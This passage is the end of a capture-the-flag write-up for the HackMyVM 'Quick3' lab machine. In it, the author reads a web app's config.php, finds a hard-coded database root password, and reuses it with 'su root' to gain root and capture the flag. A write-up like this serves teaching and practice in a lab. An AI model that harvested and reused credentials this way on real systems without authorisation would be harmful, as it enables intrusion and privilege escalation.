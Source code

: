 ```bash
-rw-r--r-- 1 www-data www-data  1104 Jan 24 09:10 updatepassword.php
-rw-r--r-- 1 www-data www-data  1213 Jan 24 08:06 updateuser.php
-rw-r--r-- 1 www-data www-data 19307 Jan 24 09:04 user.php

```
There is a `config.php` file present. We should inspect the file and if there are credentials mentioned, we should add them to our notes.

```bash
mike@quick3:/var/www/html/customer$ cat config.php
<?php
// config.php
$conn = new mysqli('localhost', 'root', 'fastandquicktobefaster', 'quick');

// Check connection
if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
}
?>

```
We got a new password for a root user in the database. 

## Privilege escalation
We should try to use the password for switching to the root user.
```bash
mike@quick3:/var/www/html/customer$ su root
Password: 
root@quick3:/var/www/html/customer# 

```
We only have to capture the root flag, so let's do it!
![image](/assets/img/WriteUp/HackMyVM/Quick3/Pasted image 20240124163042.png){: width="700" height="400" }

## Conclusion

In this writeup, we demonstrated the process of identifying and exploiting vulnerabilities on the Quick3 machine. While someof the vulnerabilities we identified did not lead to any sensitive information or functionality, others did. By chaining together multiple vulnerabilities, we were able to gain access to the machine's root flag.

Remember to always perform thorough reconnaissance and analysis before attempting to exploit vulnerabilities. Happy hacking!